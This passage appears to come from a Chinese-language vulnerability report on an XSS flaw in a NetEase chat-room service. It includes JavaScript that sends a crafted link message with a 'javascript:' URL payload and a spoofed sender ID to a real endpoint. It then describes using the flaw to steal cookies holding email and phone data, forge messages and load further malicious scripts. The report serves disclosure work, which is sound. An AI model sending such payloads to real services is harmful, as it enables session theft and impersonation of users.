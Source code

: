         // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "点击惊喜", "url": "javascript://%0aalert(\"xss\");var a=\"163.com\";", "desc": "XXXXXXXSSSSSSSSS", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()


8. 该XSS的利用

    - 首先是窃取cookie，可能会带有邮箱和手机号信息
    
        ![cookie](/assets/images/cookie.png)
    
    - 伪造发送消息等
    
        前文通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### 漏洞证明
请提供截图或视频

    POC视频链接如下：链接：https://pan.baidu.com/s/1aOqi-sLgA5XJIw3FUPiTIw 提取码：1314
